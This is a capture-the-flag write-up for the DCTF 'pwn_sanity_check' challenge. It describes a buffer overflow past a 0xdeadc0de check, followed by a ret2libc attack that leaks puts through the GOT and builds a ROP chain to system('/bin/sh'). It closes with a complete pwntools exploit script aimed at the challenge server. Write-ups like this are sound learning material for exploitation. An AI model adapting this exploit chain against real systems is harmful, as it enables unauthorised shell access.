

Prompt: 
```
This should take about 1337 seconds to solve.
```

The original problem is intended to be a ret2win problem with a simpler approach which involves overwriting the return address to the address of the instruction which executes `/bin/sh` within the `sym.win` function.

However, I approached the problem with a ret2libc solution which involved leaking the libc address and building a simple ROPchain to invoke `/bin/sh` instead.

The first part of the problem involves a simple buffer overflow where we change the value of a variable which gets compared against `0xdeadc0de` and if the comparison succeeds, then execution continues in the `sym.shell` function, which claims to invoke `/bin/sh` but does not do anything besides print a few messages. The offset for the value that we need to overwrite turned out to be 60, which we got after using a DeBrujin sequence to overflow the buffer and found the offset by doing a query against `msf-patter_offset`.

In order to complete the exploit, we will leak libc addresses. We will obtain the GOT and PLT address of `puts` via pwntools. We will also get the address of `main` in our binary. We also need a few gadgets, so we will obtain the addresses of `pop rdi;ret` and `ret` gadgets that we can use.

We sent our first payload consisting of:
```
(Padding of length 60) + (0xdeadc0de) + (Padding of length 4 for stack alignment) + (pop rdi;ret address) + (GOT address of puts) + (PLT address of puts) + (address of sym.main)
```

This results in leakage of the address of `puts` in libc.

We then take that leaked address and subtract it by the address of `puts` in the libc library loaded by the target computer (`libc6_2.31-0ubuntu9_amd64.so` which we get by searching the libc database against the last 3 bytes of the leaked `puts` address) to get the base address of libc.

Then we use https://libc.blukat.me/ to search for the libc offsets of `system` and `/bin/sh` for that libc version which turned out to be `0x055410` and `0x1b75aa`, respectively.

Running our first payload will result in execution flow returning to main after leaving the `sym.shell` function.
To build our second payload which we will provide the second time we are asked for input (we will be asked 'tell me a joke' twice):
```
(Padding of length 60) + (0xdeadc0de) + (Padding of length 4 for stack alignment) + (pop rdi;ret address) + (address of /bin/sh) + (ret address) + (address of system)
```

Sending this second payload results in a shell spawning. We can now retrieve the flag by running `cat flag.txt`.



Full exploit code:
```python
#!/usr/bin/python3

from pwn import *

# p = process('./pwn_sanity_check')
p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)
elf = ELF("pwn_sanity_check")
libc = ELF("libc6_2.31-0ubuntu9_amd64.so")
rop = ROP(elf)

FUNC_GOT = elf.got["puts"]
PUTS_PLT = elf.plt["puts"]
MAIN_SYM = elf.symbols["main"]
RET = (rop.find_gadget(['ret']))[0]
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]

pad = b'C' * 60
payload1 = pad
payload1 += p64(0xdeadc0de)
payload1 += b'B' * 4
payload1 += p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_SYM)

p.sendlineafter('tell me a joke\n',payload1)
p.recvline_contains("If this is not good enough")

#Parse leaked address
recieved = p.recvline().strip()
leak =  u64(recieved.ljust(8,b"\x00"))
log.info("Leaked libc address, Puts: %s" % hex(leak))

_libc_start_main = leak - libc.sym["puts"]
log.info("Base address of libc: %s " % hex(_libc_start_main))

system = _libc_start_main + 0x055410
bin_sh = _libc_start_main + 0x1b75aa

log.info("system %s" % hex(system))
log.info("bin_sh %s" % hex(bin_sh))

payload2 = pad
payload2 += p64(0xdeadc0de)
payload2 += b'B' * 4
payload2 += p64(POP_RDI)
payload2 += p64(bin_sh)
payload2 += p64(RET)
payload2 += p64(system)

p.sendlineafter('tell me a joke\n',payload2)
p.interactive()
```

Flag: `dctf{Ju5t_m0v3_0n}`
